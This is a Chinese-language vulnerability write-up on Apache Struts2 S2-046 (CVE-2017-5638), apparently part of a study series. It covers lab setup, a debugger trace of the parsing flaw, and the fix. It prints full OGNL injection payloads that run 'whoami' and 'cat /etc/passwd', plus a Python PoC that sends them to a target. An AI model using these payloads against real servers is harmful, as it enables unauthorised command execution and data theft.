* [目录](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-046/S2-046.md#目录)
   * [前言](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-046/S2-046.md#前言)
   * [Struts简介](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-046/S2-046.md#struts简介)
   * [漏洞复现](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-046/S2-046.md#漏洞复现)
      * [漏洞简介](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-046/S2-046.md#漏洞简介)
         * [漏洞成因](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-046/S2-046.md#漏洞成因)
         * [漏洞影响范围](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-046/S2-046.md#漏洞影响范围)
      * [环境搭建](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-046/S2-046.md#环境搭建)
      * [Payload](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-046/S2-046.md#payload)
         * [执行命令](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-046/S2-046.md#执行命令)
         * [读取文件](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-046/S2-046.md#读取文件)
      * [POC](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-046/S2-046.md#poc)
   * [漏洞分析](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-046/S2-046.md#漏洞分析)
   * [漏洞修复](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-046/S2-046.md#漏洞修复)
   * [总结](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-046/S2-046.md#总结)
   * [参考](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-046/S2-046.md#参考)
   
## 前言

> 这是Struts系列第十三篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> S2-046漏洞,又名CVE-2017-5638漏洞

> S2-046漏洞和S2-045漏洞类似,触发点不一样.S2-045触发点是Content-Type的值.S2-046触发点在Content-Disposition中的文件名值,S2-046漏洞的利用条件是在S2-045的基础上的,即满足Content-Type中包含multipart/form-data和Content-Disposition中filename包含OGNL语句这二个条件才行,S2-045就要求Content-Type中包含multipart/form-data.S2-046有两个利用方式,一个是Content-Disposition的filename存在空字节,另一个是Content-Disposition的filename不存在空字节.当Content-Disposition的filename不存在空字节时还需要满足以下两个条件:Content-Length的长度值需超过Struts2允许上传的最大值(2M)和数据流需要经过JakartaStreamMultiPartRequest.(需在struts.xml添加配置: \<constant name="struts.multipart.parser" value="jakarta-stream" />)

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-046)

#### 漏洞成因

> S2-046漏洞和S2-045漏洞类似,触发点不一样.S2-045触发点是Content-Type的值.S2-046触发点在Content-Disposition中的文件名值,S2-046漏洞的利用条件是在S2-045的基础上的,即满足Content-Type中包含multipart/form-data和Content-Disposition中filename包含OGNL语句这二个条件才行,S2-045就要求Content-Type中包含multipart/form-data.S2-046有两个利用方式,一个是Content-Disposition的filename存在空字节,另一个是Content-Disposition的filename不存在空字节.当Content-Disposition的filename不存在空字节时还需要满足以下两个条件:Content-Length的长度值需超过Struts2允许上传的最大值(2M)和数据流需要经过JakartaStreamMultiPartRequest.(需在struts.xml添加配置: \<constant name="struts.multipart.parser" value="jakarta-stream" />)

#### 漏洞影响范围

> Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,在struts.xml中添加一行\<constant name="struts.multipart.parser" value="jakarta-stream" />.在Struts使用Jakarta默认配置时,数据流并没有经过JakartaStreamMultiPartRequest.根据官方解释,在Struts 2.3.20以上的版本中,Struts2才提供了可选择的通过Streams实现Jakarta组件解析的方式.在Struts 2.3.20以上的版本中,通过Jakarta组件实现Multipart解析的流程可以有两种,一种是默认的Jakarta组件,一种是在struts.xml中主动配置<constant name="struts.multipart.parser" value="jakarta-stream" />.而只有在struts.xml中添加了相应配置,数据流才会经过JakartaStreamMultiPartRequest.然后配置好Tomcat就可以运行了.

### Payload

#### 执行命令

```java
-----------------------------735323031399963166993862150
Content-Disposition: form-data; name="foo"; filename="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}b"
Content-Type: text/plain

x
-----------------------------735323031399963166993862150--
```

#### 读取文件

```java
-----------------------------735323031399963166993862150
Content-Disposition: form-data; name="foo"; filename="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cat /etc/passwd').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}b"
Content-Type: text/plain

x
-----------------------------735323031399963166993862150--
```

### POC

```python
#!/usr/bin/env python3

import random
import string
import requests
    
class S2_046_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'S2-046漏洞,又名CVE-2017-5638漏洞',
            'description': 'Struts2 Remote Code Execution Vulnerability, Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10',
            'date': '2017-03-19',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        self.capta = self.get_capta()
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Content-Type': 'multipart/form-data; boundary=---------------------------735323031399963166993862150'
        }
        
        self.payload = '''%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='CMD').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}'''
        self.post_data = '''-----------------------------735323031399963166993862150\r\nContent-Disposition: form-data; name=\"foo\"; filename="{payload}\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n-----------------------------735323031399963166993862150--'''
    
    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞

        :param:
        :return str True or False
        """
        
        try:
            self.check_payload = self.payload.replace('CMD', 'echo ' + self.capta)
            check_req = requests.post(self.url, headers = self.headers, data = self.post_data.format(payload = self.check_payload))
            if self.capta in check_req.text and len(check_req.text) < 100:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_046 = S2_046_BaseVerify('http://localhost:8088/s2_046_war_exploded/Upload.action')
    print(S2_046.run())
```

## 漏洞分析

首先Struts2的运行流程是


&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.

&emsp;&emsp;&emsp;&emsp;2.核心控制器组件FilterDispatcher根据ActionMapper中的设置确定是否需要调用某个Action组件来处理这个HttpServletRequest请求,如果ActionMapper决定调用某个Action组件,FilterDispatcher核心控制器组件就会把请求的处理权委托给ActionProxy组件.

&emsp;&emsp;&emsp;&emsp;3.ActionProxy组件通过Configuration Manager组件获取Struts2框架的配置文件struts.xml,最后找到需要调用的目标Action组件类,然后ActionProxy组件就创建出一个实现了命令模式的ActionInvocation类的对象实例类的对象实例(这个过程包括调用Anction组件本身之前调用多个的拦截器组件的before()方法)同时ActionInvocation组件通过代理模式调用目标Action组件.但是在调用之前ActionInvocation组件会根据配置文件中的设置项目加载与目标Action组件相关的所有拦截器组件(Interceptor)

&emsp;&emsp;&emsp;&emsp;4.一旦Action组件执行完毕,ActionInvocation组件将根据开发人员在Struts2.xml配置文件中定义的各个配置项目获得对象的返回结果,这个返回结果是这个Action组件的结果码(比如SUCCESS、INPUT),然后根据返回的该结果调用目标JSP页面以实现显示输出.

&emsp;&emsp;&emsp;&emsp;5.最后各个拦截器组件会被再次执行(但是顺序和开始时相反,并调用after()方法),然后请求最终被返回给系统的部署文件中配置的其他过滤器,如果已经设置了ActionContextCleanUp过滤器,那么FilterDispatcher就不会清理在ThreadLocal对象中保存的ActionContext信息.如果没有设置ActionContextCleanUp过滤器,FilterDispatcher就会清除掉所有的ThreadLocal对象.

具体分析过程:

&emsp;&emsp;&emsp;&emsp;1.首先来看下struts.xml配置文件



&emsp;&emsp;&emsp;&emsp;2.在lib/struts2-core-2.2.3.jar/org.apache.struts2.dispatcher.ng.filter.StrutsPrepareAndExecuteFilter中dofilter方法第71行打断点,this.prepare.wrapRequest会封装request对象,F7进入this.prepare.wrapRequest方法


&emsp;&emsp;&emsp;&emsp;3.继续F7进入this.dispatcher.wrapRequest方法,这个方法首先获取Content-Type字段的值,然后判断这个值是否为空和是否含有字符串multipart/form-data,如果含有的话,构造ultiPartRequestWrapper对象.所以我们的payload需要含有multipart/form-data字符串,这样才能继续走下去.





&emsp;&emsp;&emsp;&emsp;4.F7进入MultiPartRequestWrapper方法.parser用来指定不同的解析类,从前面已经获取了multi为JakartaStreamMultiPartRequest类型,所以会进入JakartaStreamMultiPartRequest类的parse方法.F7跟入parse方法.



&emsp;&emsp;&emsp;&emsp;5.parse方法对处理上传文件时的操作this.processUpload(request, saveDir)进行try catch操作,F7进入processUpload方法



&emsp;&emsp;&emsp;&emsp;6.继续F7进入processFileItemStreamAsFileField方法,继续F7进入getName方法




&emsp;&emsp;&emsp;&emsp;7.继续F7进入调用的Streams.checkFileName方法.



&emsp;&emsp;&emsp;&emsp;8.checkFileName方法用来检查文件名,charAt()方法用于返回指定索引处的字符.该方法对文件名的每一个字符进行了获取,当取到字符\0b时发生了错误,所以触发了异常.F7继续跟下去这个异常





&emsp;&emsp;&emsp;&emsp;9.F7一直跟下去会发现跳到了第5步时的parse方法,因为捕获到了异常.接下来流程就和S2-045类似了.F7进入buildErrorMessage方法



&emsp;&emsp;&emsp;&emsp;10.buildErrorMessage方法会调用LocalizedTextUtil.findText对错误信息进行处理,F7继续进入LocalizedTextUtil.findText方法.



&emsp;&emsp;&emsp;&emsp;11.F7继续进入调用的重载findText方法,F7继续进入getDefaultMessage方法



